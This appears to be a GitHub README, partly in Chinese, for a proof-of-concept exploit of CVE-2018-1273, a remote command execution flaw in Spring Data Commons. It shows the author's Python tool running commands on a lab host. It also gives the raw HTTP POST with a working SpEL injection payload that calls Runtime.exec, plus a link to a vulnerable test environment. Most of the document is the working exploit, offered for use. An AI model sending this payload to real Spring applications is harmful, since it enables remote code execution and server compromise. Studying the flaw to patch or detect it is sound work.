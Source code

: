 # CVE-2018-1273
Spring Data Commons RCE 远程命令执行漏洞

## usage
![](./test.jpg)

```
C:\Users\CTF\Desktop>python cve-2018-1273.py


  ______   ______    ___  ___ ______     ______ ________
 / ___/ | / / __/___|_  |/ _ <  ( _ )___<  /_  /_  /_  /
/ /__ | |/ / _//___/ __// // / / _  /___/ / __/ / //_ <
\___/ |___/___/   /____/\___/_/\___/   /_/____//_/____/

                 author: jas502n

     example: http://10.10.20.166:8080/account



Set Url: http://10.10.20.166:8080/account

Cmd >>: touch /tmp/jas502n

405, May Have a CVE-2018-1273 vulnerability!

CVE-2018-1273 Vulnerability Exit!

Cmd >>:

```
![](./web.jpg)
## BurpSuite request:
```
POST /account HTTP/1.1
Host: 10.10.20.166:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Content-Length: 96
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
cache-control: no-cache
Cookie: sidebar_collapsed=false
X-Forwarded-For: 127.0.0.2
Content-Type: application/x-www-form-urlencoded

name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/jas502n')]=test
```

## 漏洞环境：

https://github.com/wearearima/poc-cve-2018-1273

```
mvn spring-boot:run

```
